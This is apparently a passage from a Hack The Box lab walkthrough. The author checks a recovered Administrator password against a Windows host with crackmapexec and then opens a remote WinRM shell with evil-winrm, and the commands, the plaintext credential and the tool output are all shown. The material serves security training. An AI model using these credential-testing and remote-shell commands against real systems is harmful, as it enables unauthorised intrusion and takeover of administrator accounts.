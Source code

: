 This credential is working with `Administrator` account!
Let's check if I can spawn an interactive shell with `winrm`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
SMB         10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP        10.10.10.149    5985   SUPPORTDESK      [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
```

Yeah, it's working! Let's spawn a shell!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
```

I got `Administrator`!